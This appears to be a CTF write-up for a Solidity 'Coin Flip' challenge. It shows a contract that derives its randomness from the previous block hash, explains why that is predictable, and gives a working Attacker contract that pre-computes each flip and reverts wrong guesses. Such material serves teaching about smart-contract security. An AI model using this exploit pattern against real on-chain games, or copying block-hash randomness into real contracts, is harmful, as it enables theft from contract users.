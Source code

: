 # Coin Flip

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract CoinFlip {

  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor() {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number - 1));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}
```

## Goal

Win every bet by predicting the guess

## Exploit

In order to finish this CTF we will have to use another smart contract. We can name this contract Attacker.

We need more than 10 consecutive wins to pass this challenge, this value is stored inside the consecutiveWins variable, which is initialized to 0 in the contructor. 

One think to keep in mind is that the transactions in the blockchain are atomic, so either everything passes and the state is changed, or if the transaction failes everything is reverterd to the previous state, meaning if the transaction reverts every storage variable will kepp it's previos state (value).

Another thing to keep in mind is that everything in the smart contracts is publicly visible, including the local variables and state variables marked as private.

To place our guess we need to call the flip() function with a boolean parameter, which means this function only accepts true or false as parameters.

Inside the Attacker contract we can pre-calculate the side parameter and call the flip(bool _guess) function from the CoinFlip contract within the Attacker contract, only if our guess is correct.

To exploit the contract we need to:

1. create Attacker contract, and send the address of the CoinFlip contract inside the Attacker contract
2. create placeGuess(bool _guess) external function inside the Attacker contract, inside this function we will pre-calculate the side parameter (which can be true or false)
3. call the placeGuess function inside the Attacker contract with a value for the _guess parameter (true/false)
4. if our _guess is equal to the pre-calculated side parameter, we call the flip() function from the CoinFlip contract, if our _guess does not match the side parameter we revert the transaction

## Attacker contract code

```
contract Attacker {

  address private coinFlipContractAddress;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor(address _cf) {
    coinFlipContractAddress = _cf;
  }

  function placeGuess(bool _guess) external {
      uint256 blockValue = uint256(blockhash(block.number - 1));

      uint256 coinFlipp = blockValue / FACTOR;
      bool side = coinFlipp == 1 ? true : false;

      if (side == _guess) {
        // calling the flip function from CoinFlip contract
        (bool success, ) = coinFlipContractAddress.call(abi.encodeWithSignature("flip(bool)", _guess));
        require(success, "Transaction failed");
      } else revert();
  }
}
```